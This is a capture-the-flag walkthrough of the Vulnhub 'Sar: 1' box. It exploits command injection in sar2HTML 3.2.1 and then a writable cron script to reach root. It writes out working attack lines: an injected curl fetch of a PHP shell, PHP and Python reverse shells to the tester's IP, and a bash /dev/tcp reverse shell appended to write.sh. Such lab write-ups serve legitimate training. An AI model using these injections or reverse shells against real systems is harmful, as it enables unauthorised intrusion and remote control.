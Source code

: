 ```yaml
---
title: Vulnhub Sar 1
author: tactinix
date: 2021-02-07
categories: [Walk-throughs]
tags: [Vulnhub-Boxes]
math: true
mermaid: true
---
```




Solving this box involve taking advantage of an vulnerability in the Sar2HTML web application, then making use of the cron scheduler to gain root on the box.

### About the box
-   **Name**: Sar: 1
-   **Date release**: 15 Feb 2020
-   **Author**: [Love](https://www.vulnhub.com/author/love,669/)
-   **Series**: [Sar](https://www.vulnhub.com/series/sar,276/)

### Description on Vulnhub
Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.

### Recon

Starting off with `nmap` and `gobuster`.

`sudo nmap -sC -sV -oA nmap.initial 192.168.178.120`

reveals;

```
# Nmap 7.91 scan initiated Sun Feb  7 10:39:36 2021 as: nmap -sC -sV -oA nmap.initial 192.168.178.120
Nmap scan report for sar.fritz.box (192.168.178.120)
Host is up (0.00013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:82:2A:C6 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Sun Feb  7 10:39:43 2021 -- 1 IP address (1 host up) scanned in 6.73 seconds
```

Only one port open, port 80.

`gobuster dir -w ~/wordlists/SecLists/Discovery/Web-Content/raft-large-files-lowercase.txt -u 192.168.178.120 -o gobuster.out`

get the following;

```/index.html           (Status: 200) [Size: 10918]
/.htaccess            (Status: 403) [Size: 280]
/robots.txt           (Status: 200) [Size: 9]
/.                    (Status: 200) [Size: 10918]
/phpinfo.php          (Status: 200) [Size: 95426]
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htm                 (Status: 403) [Size: 280]
/.htpasswds           (Status: 403) [Size: 280]
/.htgroup             (Status: 403) [Size: 280]
/wp-forum.phps        (Status: 403) [Size: 280]
/.htaccess.bak        (Status: 403) [Size: 280]
/.htuser              (Status: 403) [Size: 280]
/.htc                 (Status: 403) [Size: 280]
/.ht                  (Status: 403) [Size: 280]
/.htaccess.old        (Status: 403) [Size: 280]
/.htacess             (Status: 403) [Size: 280]
```

Initial site on port 80 is the standard "It works" page.

![](/assets/img/sar/20210207105159.png)

Nmap did point to a `robots.txt` which only contains a reference to `sar2HTML`

/sar2HTML

![](/assets/img/sar/20210207105542.png)

Gobuster found /phpinfo.php

![](/assets/img/sar/20210207105643.png)

So, what is `sar2html`?
According to the page on Sourceforge, it's a

`Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. Both command line and web interface provide same functionality.`
See [Sourceforge](https://sourceforge.net/projects/sar2html/#:~:text=Sar2html%20is%20web%20based%20frontend,web%20interface%20provide%20same%20functionality.&text=Then%20you%20may%20plot%20performance,pdf%20file%20format%20through%20sar2html).
The `sar` command as per Ubuntu manpages,

`sar - Collect, report, or save system activity information.`

Provided by: [sysstat\_11.6.1-1\_amd64](https://launchpad.net/ubuntu/bionic/+package/sysstat) 

The related [Ubuntu manpage](http://manpages.ubuntu.com/manpages/bionic/man1/sar.sysstat.1.html)




Sar2HTML 3.2.1, the version on the box, has an exploit listed on [Exploitdb](https://www.exploit-db.com/exploits/47204).

```txt
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
            
```

Putting the exploit to action and testing with `whoami`;

![](/assets/img/sar/20210207112123.png)

Some further poking with `ls`;

![](/assets/img/sar/20210207112240.png)

### Gaining a shell

From the /phpinfo.php page we know `curl` is enabled, thus we can leverage it to get a reverse shell, something like pentestermonkey's reverse-php-shell.php on the box. However, through the `post` request into Zap, we can also do a `php` reverse connection with `php -r '$sock\=fsockopen("my_ip",my_port);exec("/bin/sh -i <&3 >&3 2>&3");'`.

Option 2, did not work out so well, but going with `curl` did.
Setting the values and making sure `http://192.168.178.120/sar2HTML/index.php?plot=;curl%20http://192.168.178.79:8000/rs.php` with a `python -m http.server`, also standing up a `nc -lvnp 1337` so long.
![](/assets/img/sar/20210207120342.png)


![](/assets/img/sar/20210207115625.png)


There was definitely a connection, but checking if the script stuck with `ls` did not reveal anything. Doing various `ls`'s' around, I came upon 2 shell scripts in the `app-root`, 
![](/assets/img/sar/20210207121432.png)

Using `wget` to pull them down to look at what they do;

![](/assets/img/sar/20210207143210.png)

Looks like `finally.sh` call `write.sh` that can write to `/tmp`,
something perhaps for later.



Going further, the `user.txt` flag can be had without a shell;

![](/assets/img/sar/20210207122637.png)




It turns out my idea going with a reverse shell `.php` script, might be a brain fart as well, but eventually get a shell on the box with `python`
The full `python` method being, 
```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.178.79",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
from https://book.hacktricks.xyz/shells/shells/linux#python

with the full URL being `http://192.168.178.120/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((%22192.168.178.79%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call(%5B%22/bin/sh%22,%22-i%22%5D);%27`
get a shell on a `nc -lvnp 1234`.

![](/assets/img/sar/20210207144748.png)

Pulling LinPEAS.sh and going through the output, the script from before `finally.sh` pops up.

![](/assets/img/sar/20210207150023.png)


Going further through the output,


![](/assets/img/sar/20210207152021.png)

So `crontab` it is!
Firstly, we stand up a `nc -lvnp 1346` to accept the reverse shell when the`crontab` is triggered, then we append our reverse shell command to `write.sh` with a `echo -e "bash -c 'bash -i >& /dev/tcp/192.168.178.79/1346 0>&1'" >> write.sh`.

Wait a bit and viola!

![](/assets/img/sar/20210207161653.png)


Box solved, got the user flag previously through the web vulnerability and the root flag via a naughty crontab.

Thanks for reading and have the best day ever!

tactinix
